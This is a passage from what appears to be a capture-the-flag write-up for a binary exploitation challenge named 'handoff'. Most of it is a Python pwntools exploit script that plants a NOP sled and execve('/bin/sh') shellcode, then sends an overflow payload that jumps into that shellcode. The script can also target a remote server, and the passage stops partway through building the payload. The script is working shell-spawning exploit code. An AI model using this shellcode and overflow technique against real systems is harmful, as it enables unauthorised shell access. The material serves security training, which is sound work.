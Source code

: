 Note that the `Saved $rbp` entry at `$rbp` does get clobbered by the code added at `total_entries` as this required 8 bytes for the two instructions (SUB and JMP) and `total_entries` is only 4 bytes. But we don't need to worry about preserving `main()`'s stack frame so much anyway.


## 🧪 Exploit Script (Python + pwntools)

```
#!/usr/bin/env python3

from pwn import *

target_elf = ELF("./handoff")

# command line support for local, remote and gdb modes
if len(sys.argv) > 1:
  if "remote" in sys.argv:
    if len(sys.argv) > 3:
      target_proc = remote(sys.argv[2], sys.argv[3])
    else:
      print('usage: ./pwn-game.py remote <server> <port>')
      exit(1)
  elif "gdb" in sys.argv:
    target_proc = target_elf.process()
    gdb.attach(target_proc)
else:
  target_proc = target_elf.process()


# add an entry (name = NOP sled)
target_proc.recvuntil(b'3. Exit the app\n')
target_proc.sendline(b'1');
target_proc.recvuntil(b'What\'s the new recipient\'s name:')
target_proc.sendline(b'\x90' * 30)

# write a message with our shellcode, for entries[0]
target_proc.recvuntil(b'3. Exit the app\n')
target_proc.sendline(b'2');
target_proc.recvuntil(b'Which recipient would you like to send a message to?')
target_proc.sendline(b'0')
target_proc.recvuntil(b'What message would you like to send them?')
random_shellcode = asm("""
  mov rdi, rax
  add rdi, (64 - 9)
  mov rax, 59
  xor rsi, rsi
  xor rdx, rdx
  syscall
  mov rax, 0x40143f
  jmp rax
  """, arch = 'amd64')
print('shellcode = ' + str(len(random_shellcode)) + ' bytes')
random_shellcode += b'\x90'*(64-9-len(random_shellcode))
random_shellcode += b'/bin/sh\x00'
target_proc.sendline(random_shellcode)

# overflow feedback
target_proc.recvuntil(b'3. Exit the app\n')
target_proc.sendline(b'3')
payload = b'\xeb\x06' + b'\x90'*6   # jmp to <total_entries>
payload += asm("""
  sub rax, (0x2D4 - 8)              
  jmp rax                           
 """, arch = 'amd64')
```